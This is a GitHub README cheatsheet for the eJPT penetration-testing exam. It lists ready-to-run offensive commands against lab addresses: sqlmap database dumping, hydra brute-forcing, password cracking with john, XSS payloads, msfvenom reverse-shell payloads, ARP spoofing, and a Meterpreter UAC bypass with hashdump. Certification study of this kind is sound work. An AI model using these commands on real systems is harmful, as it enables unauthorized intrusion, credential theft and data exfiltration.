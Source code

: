 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT exam.

## Nmap
nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial\
nmap -A -p- -iL targets -oN nmap.aggressive\
nmap -p<port> --script=vuln -v <target-IP>

## fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null

## IP Route
**Syntax**\
*ip route add \<Network-range\> via \<router-IP\> dev \<interface\>\
eg.\
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0

## John
john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

## dirb
dirb http://10.10.10.10/ \
dirb http://10.10.10.10/dir -u admin:admin

## Netcat
**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 <port>

## SQLMap
#### Check if injection exists
sqlmap -r Post.req\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists
sqlmap -r login.req --dbs\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

## Hydra
**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
*You can use same for FTP, just replace ssh with ftp*

**HTTP POST Form**\
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

*You will know which wordlists to use when the time comes*


## XSS
\<script\>alert(1)\</script\>\
\<ScRiPt\>alert(1)\</ScRiPt\>

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

## SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share_name

## FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10

## Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate <pid>\
hashdump
  
## Windows Command Line
**To search for a file starting from current directory**\
dir /b/s "*.conf*\
dir /b/s "*.txt*

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users


